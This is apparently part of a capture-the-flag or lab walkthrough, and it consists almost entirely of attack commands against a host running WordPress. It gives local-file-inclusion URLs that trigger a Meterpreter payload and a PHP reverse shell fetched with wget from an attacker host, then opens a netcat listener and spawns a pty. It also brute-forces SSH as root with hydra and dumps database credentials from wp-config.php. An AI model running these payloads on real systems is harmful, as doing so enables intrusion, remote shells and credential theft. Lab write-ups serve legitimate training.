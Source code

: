 #### Accessing Meterpreter Shell
```
http://192.168.1.1/view.php?page=../../usr/databases/meterpreter_reverse_tcp_shell.php
```

#### Accessing Pseudo-Terminal
```
shell
```
```
python -c 'import pty; pty.spawn("/bin/bash")'

-c = Command
pty = Pseudo-terminal utilities
pty.spawn = Module for controling pseudo-terminal
```

#### Creating Reverse Shell
```
cd /usr/share/nginx/html
vim shell.txt
```
```
<?php $sock=fsockopen("192.168.1.2",1234); exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```
```
chmod 777 shell.txt
vim /usr/databases/php_system_reverse_shell.php
```
```
<?php system("wget http://192.168.1.2/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>
```

#### Accessing Reverse Shell
```
nc -lvp 1234 / netcat -lvp 1234

-l = Listen mode
-v = Prints status messages
-p = Listened port
```
```
http://192.168.1.1/view.php?page=../../usr/databases/php_system_reverse_shell.php
```
```
bash -i

-i = Shell is interactive
```

### Gaining Access
```
hydra -l root -P /opt/rockyou.txt ssh://192.168.1.1:22

-l = Username
-P = Password list
ssh = Protocol
22 = Default port service
```
```
cd /home/zico/wordpress
cat wp-config.php | grep DB_
```
```
define('DB_NAME', 'zico');
define('DB_USER', 'zico');
define('DB_PASSWORD', 'sWfCsfJSPV9H3AmQzw8');
define('DB_HOST', 'zico');
```
